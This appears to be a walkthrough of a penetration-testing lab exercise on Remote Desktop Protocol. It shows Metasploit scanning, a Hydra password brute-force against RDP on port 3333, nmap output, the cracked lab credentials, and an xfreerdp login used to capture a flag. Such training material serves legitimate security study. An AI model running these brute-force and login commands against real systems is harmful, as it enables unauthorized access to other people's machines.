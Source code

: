 #### RDP 
	- Remote Desktop Protocol
	- GUI for remote sessions
	- TCP 3389, or any TCP port
	- Authentication with windows account
	- Brute force for user credentials/list



#### Tools
msfconsole
hydra
xfreerdp

#### Commands

With msfconsole, see if rdp is running
```
msfconsole
search rdp_scanner
use auxiliary/scanner/rdp/rdp_scanner
show options
set RHOSTS target_ip
set RPORT rdp_port
exploit
```

Brute force rdp with Hydra
```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://target_ip
-s 3333
```

Connect to rdp with xfreerdp
```
xfreerdp /u:username /p:password /v:target_ip:port
```


A Kali GUI machine and a target machine running a vulnerable RDP service are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target). 

Your task is to fingerprint the running RDP service and its valid port using the tools available on the Kali machine and then exploit the vulnerability using the appropriate method.

**Note:** rdesktop will not work on this setup as it does not support NLA. Please use xfreerdp to connect to the RDP server.

**Objective:** Exploit the application and retrieve the flag!

Note: rdesktop will not work on this setup as it does not support NLA. Please use xfreerdp to connect to the RDP server.

Instructions:* Your Kali machine has an interface with IP address 10.10.X.Y. Run “ip addr” to know the values of X and Y. * The IP address of the target machine is mentioned in the file “/root/Desktop/target” * Do not attack the gateway located at IP address 192.V.W.1 and 10.10.X.1 * Dictionaries to use: + /usr/share/metasploit-framework/data/wordlists/common_users.txt + /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

```
nmap -p- -sS -sV -T 4 -v 10.4.23.196 

135/tcp   open  msrpc          Microsoft Windows RPC
139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds   Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3333/tcp  open  ssl/dec-notes?
5985/tcp  open  http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc          Microsoft Windows RPC
49153/tcp open  msrpc          Microsoft Windows RPC
49154/tcp open  msrpc          Microsoft Windows RPC
49155/tcp open  msrpc          Microsoft Windows RPC
49164/tcp open  msrpc          Microsoft Windows RPC
49175/tcp open  msrpc          Microsoft Windows RPC
```

Brute force rdp service
```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt -s 3333 10.4.23.196 rdp 

[3333][rdp] host: 10.4.23.196   login: demo   password: victoria
[3333][rdp] host: 10.4.23.196   login: auditor   password: elizabeth
[3333][rdp] host: 10.4.23.196   login: sysadmin   password: samantha
[3333][rdp] host: 10.4.23.196   login: administrator   password: qwertyuiop

```

```
xfreerdp /u:Administrator  /p:qwertyuiop /v:10.4.23.196:3333

port-number-3333
```